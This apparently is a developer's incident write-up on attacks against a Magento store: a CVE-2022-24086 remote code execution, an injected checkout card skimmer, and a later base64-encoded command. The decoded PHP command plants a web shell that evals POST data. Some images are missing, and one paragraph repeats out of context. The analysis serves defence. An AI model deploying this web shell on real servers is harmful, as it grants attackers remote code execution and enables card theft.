










1. Unauthenticated Remote Code Execution



The vulnerability is triggered by improper input validation during the checkout process.

An attacker is able to exploit this vulnerability without being authenticated on the web application (contrary to what has previously been reported).

Fortunately, there was no additional order between these two attacks, and no one changed the status, so that script didn't run.




This script lets shell run to curl from this web, which is a Phishing site as well. I can guess the hacker is trying to inject the code they want with this.

- Refs:
  - https://nvd.nist.gov/vuln/detail/CVE-2022-24086
  - https://helpx.adobe.com/security/products/magento/apsb22-12.html
  - https://www.covertswarm.com/post/unauthenticated-remote-code-execution-in-magento-2-and-adobe-commerce-systems-cve-2022-24086
  - https://stackoverflow.com/questions/36374420/what-is-the-meaning-of-eval-post1

1. Card skimmer





I decoded this script tag and was able to get the below code:



- m@lcOd£.zip Password: malCode  


This is a card skimmer script which encrypts and posts the card information to the Magento server API that hackers injected. This script was injected on the checkout page and replaced the "Place order" button.





It parses the card payment information and tries to post the encrypted card data to the server again. From this, I could guess that the hacker injected the malicious code or process inside the server.

I've checked the generated code and all processes for any suspicious stuff, but the injected code was removed before I joined, according to the checking history. Fortunately, none of the user info was taken.

---

2. 2023-05-15 update


```
Y2QgcHViO2VjaG8gJzw/cGhwIGVjaG8gIk9LIjtAZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsidmduIl0pKTsgJyA+IGhlYWx0aF9jaGVjay5waHA=
```

I decoded this base64 encrypted string and was able to get the below code:

```php
cd pub;echo '<?php echo "OK";@eval(base64_decode($_POST["vgn"])); ' > health_check.php
```

This script lets shell run to curl from this web, which is a Phishing site as well. I can guess the hacker is trying to inject the code they want with this.

But I've already updated the Magento version to the latest one(v2.4.6).

..? I'm not sure if this is a new attack or not. I'll keep checking this.


- Refs:
  - https://www.foregenix.com/blog/threat-alert-intercept
